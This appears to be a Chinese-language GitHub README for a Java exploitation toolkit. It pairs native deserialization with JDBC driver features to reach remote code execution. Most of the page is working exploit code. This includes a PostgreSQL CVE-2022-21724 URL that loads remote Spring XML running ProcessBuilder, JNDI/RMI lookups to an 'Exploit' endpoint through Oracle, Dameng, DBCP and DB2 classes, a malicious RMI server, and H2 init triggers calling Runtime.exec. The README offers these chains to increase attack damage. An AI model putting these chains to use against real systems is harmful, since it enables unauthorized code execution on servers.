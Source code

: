 # Deserial_Sink_With_JDBC

> 如果你：
>
> 厌倦了高版本JDK中TemplatesImpl已经被移除
>
> 寻找gadget却想不到sink
>
> 无法扩大JDBC攻击的危害
>
> ...
>
> 不妨试试以下JDBC与原生反序列化的结合

---

### Postgresql

PostgreSQL的JDBC存在一个CVE-2022-21724，其影响范围是

> 9.4.1208 <=PgJDBC <42.2.25
>
> 42.3.0 <=PgJDBC < 42.3.2

Sink构造

```java
        String command = "jdbc:postgresql://node/test?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://127.0.0.1:2333/test.xml";
        PGSimpleDataSource dataSource = new PGSimpleDataSource();
        dataSource.setUrl(command);
```

利用`python3 -m http.server 2333`本地开启一个http服务，其中test.xml的文件内容为

```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>open</value>
                <value>-a</value>
                <value>Calculator</value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

具体代码见src/main/java/postgresql包下内容

### oracle

Sink构造

```java
        // sink
        OracleCachedRowSet oracleCachedRowSet = new OracleCachedRowSet();
        oracleCachedRowSet.setDataSourceName("rmi://127.0.0.1:1099/Exploit");
```

具体代码见src/main/java/oracle包下内容

### Dameng(达梦)

Sink构造，构造时需要设置Reader和Writer为null，使得writeObject的时候忽略掉这2个不可序列化的field

```java
        DmdbRowSet dmdbRowSet = new DmdbRowSet();
        dmdbRowSet.setDataSourceName("rmi://127.0.0.1:1099/Exploit");
        dmdbRowSet.setReader(null);
        dmdbRowSet.setWriter(null);
```

具体代码见src/main/java/dameng包下内容

### Teradata

Sink构造，此gadget为[ppt](https://i.blackhat.com/Asia-23/AS-23-Yuanzhen-A-new-attack-interface-in-Java.pdf)内容，不做过多讲解

```java
        String command = "open -a Calculator";
        TeraDataSource dataSource = new TeraDataSource();
        dataSource.setBROWSER(command);
        dataSource.setLOGMECH("BROWSER");
        dataSource.setDSName("127.0.0.1");
        dataSource.setDbsPort("10250");
```

`python3 fakeserver.py`开启恶意server

`python3 fakesso.py`开启恶意sso

具体代码见src/main/java/teradata包下内容

---

> 如果datasource并不能序列化，我们可以是用c3p0或dbcp来调用getConnection

### Dbcp H2

sink构造

```java
        // sink but use dbcp bypass jndi
        String command = "rmi://127.0.0.1:1099/Exploit";
        SharedPoolDataSource dataSource = new SharedPoolDataSource();
        dataSource.setDataSourceName(command);
```

同时为了应对高版本的JNDI注入，我们可以有如下恶意RMI Server

```java
        Registry registry = LocateRegistry.createRegistry(rmi_port);
        ResourceRef ref = new ResourceRef(
                "javax.sql.DataSource",
                null,
                "", "", true,
                "org.apache.commons.dbcp2.BasicDataSourceFactory",
                null);
        String JDBC_URL = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n" +
                "INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
                "java.lang.Runtime.getRuntime().exec('open -a Calculator')\n" +
                "$$\n";
        ref.add(new StringRefAddr("driverClassName","org.h2.Driver"));
        ref.add(new StringRefAddr("url",JDBC_URL));
        ref.add(new StringRefAddr("username","root"));
        ref.add(new StringRefAddr("password","password"));
        ref.add(new StringRefAddr("initialSize","1"));
```

具体代码见src/main/java/dbcp2/h2包下内容

### C3p0 H2

sink构造

```java
        // sink
        String command = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n" +
                "INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
                "java.lang.Runtime.getRuntime().exec('open -a Calculator')\n" +
                "$$\n";
        ComboPooledDataSource dataSource = new ComboPooledDataSource();
        dataSource.setJdbcUrl(command);
```

具体代码见src/main/java/c3p0/h2包下内容

### C3p0 ibm db2

sink构造

```java
        String command = "jdbc:db2://127.0.0.1:50001/BLUDB:clientRerouteServerListJNDIName=rmi://127.0.0.1:1099/Exploit;";
        ComboPooledDataSource dataSource = new ComboPooledDataSource();
        dataSource.setJdbcUrl(command);
```

具体代码见src/main/java/c3p0/ibmdb2包下内容

---

### Ref

- https://github.com/Y4tacker/JavaSec

- https://tttang.com/archive/1405/

- https://i.blackhat.com/Asia-23/AS-23-Yuanzhen-A-new-attack-interface-in-Java.pdf

- https://mogwailabs.de/en/blog/2023/04/look-mama-no-templatesimpl/

  
